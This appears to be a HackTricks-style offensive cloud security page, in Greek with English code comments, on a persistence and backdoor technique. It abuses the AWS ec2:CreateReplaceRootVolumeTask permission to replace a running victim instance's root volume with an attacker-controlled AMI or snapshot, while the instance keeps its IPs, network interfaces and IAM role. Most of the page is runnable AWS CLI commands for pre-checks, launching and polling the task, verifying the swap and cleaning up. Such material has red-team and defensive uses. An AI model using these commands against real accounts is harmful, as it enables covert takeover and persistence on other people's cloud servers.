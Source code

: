 # AWS - EC2 ReplaceRootVolume Task (Stealth Backdoor / Persistence)

{{#include ../../../../banners/hacktricks-training.md}}

Κατάχρηση του **ec2:CreateReplaceRootVolumeTask** για να αντικατασταθεί ο root EBS δίσκος μιας τρέχουσας instance με έναν που επαναφέρεται από AMI ή snapshot υπό έλεγχο του επιτιθέμενου. Η instance επανεκκινείται αυτόματα και επανέρχεται με το root filesystem που ελέγχει ο επιτιθέμενος, ενώ διατηρούνται οι ENIs, οι ιδιωτικές/δημόσιες IP, οι συνδεδεμένοι μη-root όγκοι και τα metadata της instance/IAM role.

## Απαιτήσεις
- Η στοχευόμενη instance είναι EBS-backed και τρέχει στην ίδια region.
- Συμβατό AMI ή snapshot: ίδια αρχιτεκτονική/virtualization/boot mode (και product codes, αν υπάρχουν) με τη στοχευόμενη instance.

## Προ-ελέγχοι
```bash
REGION=us-east-1
INSTANCE_ID=<victim instance>

# Ensure EBS-backed
aws ec2 describe-instances   --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceType' --output text

# Capture current network and root volume
ROOT_DEV=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceName' --output text)
ORIG_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)
PRI_IP=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].PrivateIpAddress' --output text)
ENI_ID=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].NetworkInterfaces[0].NetworkInterfaceId' --output text)
```
## Αντικατάσταση root από AMI (προτιμότερο)
```bash
IMAGE_ID=<attacker-controlled compatible AMI>

# Start task
TASK_ID=$(aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --image-id $IMAGE_ID   --query 'ReplaceRootVolumeTaskId' --output text)

# Poll until state == succeeded
while true; do
STATE=$(aws ec2 describe-replace-root-volume-tasks --region $REGION     --replace-root-volume-task-ids $TASK_ID     --query 'ReplaceRootVolumeTasks[0].TaskState' --output text)
echo "$STATE"; [ "$STATE" = "succeeded" ] && break; [ "$STATE" = "failed" ] && exit 1; sleep 10;
done
```
Εναλλακτική με χρήση ενός snapshot:
```bash
SNAPSHOT_ID=<snapshot with bootable root FS compatible with the instance>
aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAPSHOT_ID
```
## Αποδεικτικά στοιχεία / Επαλήθευση
```bash
# Instance auto-reboots; network identity is preserved
NEW_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)

# Compare before vs after
printf "ENI:%s IP:%s
ORIG_VOL:%s
NEW_VOL:%s
" "$ENI_ID" "$PRI_IP" "$ORIG_VOL" "$NEW_VOL"

# (Optional) Inspect task details and console output
aws ec2 describe-replace-root-volume-tasks --region $REGION   --replace-root-volume-task-ids $TASK_ID --output json
aws ec2 get-console-output --region $REGION --instance-id $INSTANCE_ID --latest --output text
```
Αναμενόμενο: ENI_ID και PRI_IP παραμένουν τα ίδια· το ID του root volume αλλάζει από $ORIG_VOL σε $NEW_VOL. Το σύστημα εκκινεί με το σύστημα αρχείων από το attacker-controlled AMI/snapshot.

## Σημειώσεις
- Η API δεν απαιτεί να σταματήσετε χειροκίνητα το instance· το EC2 οργανώνει την επανεκκίνηση.
- Από προεπιλογή, ο αντικατασταθείς (παλιός) root EBS volume αποσυνδέεται και παραμένει στον λογαριασμό (DeleteReplacedRootVolume=false). Αυτό μπορεί να χρησιμοποιηθεί για επαναφορά ή πρέπει να διαγραφεί για να αποφευχθούν χρεώσεις.

## Επαναφορά / Καθαρισμός
```bash
# If the original root volume still exists (e.g., $ORIG_VOL is in state "available"),
# you can create a snapshot and replace again from it:
SNAP=$(aws ec2 create-snapshot --region $REGION --volume-id $ORIG_VOL   --description "Rollback snapshot for $INSTANCE_ID" --query SnapshotId --output text)
aws ec2 wait snapshot-completed --region $REGION --snapshot-ids $SNAP
aws ec2 create-replace-root-volume-task --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAP

# Or simply delete the detached old root volume if not needed:
aws ec2 delete-volume --region $REGION --volume-id $ORIG_VOL
```
{{#include ../../../../banners/hacktricks-training.md}}
